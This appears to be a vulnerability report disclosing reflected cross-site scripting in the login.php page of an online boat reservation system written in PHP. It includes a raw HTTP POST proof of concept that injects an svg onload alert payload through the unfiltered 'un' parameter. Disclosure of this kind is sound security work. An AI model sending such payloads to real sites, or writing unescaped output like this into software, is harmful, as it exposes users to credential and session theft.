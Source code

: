 # online-boat-reservation-system-in-php has Cross Site Scripting vulnerability in login.php

## supplier 
https://code-projects.org/online-boat-reservation-system-in-php-with-source-code/
## Vulnerability file
login.php
## describe
There is an  Cross Site Scripting vulnerability in online-boat-reservation-system-in-php  in login.php. Control parameter: $UN

A malicious attacker can use this vulnerability to obtain administrator login credentials or phishing websites

## code analysis

In login.php，get $_POST['un'], and echo it in no filter.

![Image](https://github.com/user-attachments/assets/f2b1d731-7390-41c3-b644-f2de252767ee)

## POC

```
POST /login.php HTTP/1.1
Host: boat
Content-Length: 58
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://boat
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://boat/login.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=04c7c317dd8370a98faa8eb6502383e1
Connection: close

un=1%22%3E%3Csvg%2Fonload%3Dalert%281%29%3B%3E&up=1&login=
```

![Image](https://github.com/user-attachments/assets/64eec2fa-3002-448b-b498-7001c476a79a)

**Result**

![Image](https://github.com/user-attachments/assets/9109b577-f611-47f2-88af-60b10d50a74c)
